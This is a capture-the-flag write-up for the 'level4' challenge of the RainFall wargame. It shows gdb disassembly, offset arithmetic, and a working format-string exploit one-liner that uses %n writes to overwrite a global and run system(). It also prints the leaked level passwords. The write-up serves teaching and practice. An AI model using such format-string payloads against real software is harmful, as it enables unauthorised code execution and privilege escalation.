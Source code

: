 Login as `level4`.
```shell
┌──$ [~/42/2021/rainfall]
└─>  ssh 192.168.1.28 -p 4242 -l level4
level3@192.168.1.28's password: b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
A `SUID` executable is located in the home directory.
```shell
level4@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
```
Examine defined functions
```gdb
(gdb) info functions
[...]
0x08048444  p
0x08048457  n
0x080484a7  main
[...]
```
Global variable `m` is compared to `0x1025544` value. As it stored in `.bss` section - declared but have not been assigned a value.
```gdb
(gdb) disassemble n
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
```
To write a value into 

0x08049810
0x01025544
0x44 = 68   | 4+4+4+4+x             = 68  (0x44)  : x = 52
0x55 = 85   | 4+4+4+4+52+x          = 85  (0x55)  : x = 17
0x02 = 2    | 4+4+4+4+52+17+x       = 258 (0x102) : x = 173
0x01 = 1    | 4+4+4+4+52+17+173+x   = 513 (0x201) : x = 255

```shell
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "\x11\x98\x04\x08" + "\x12\x98\x04\x08" + "\x13\x98\x04\x08" + "%052x%12$n" + "%017x%13$n" + "%0173x%14$n" + "%0255x%15$n"' | ./level4
00000000000000000000000000000000000000000000b7ff26b0000000000bffff794000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000b7fd0ff4000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
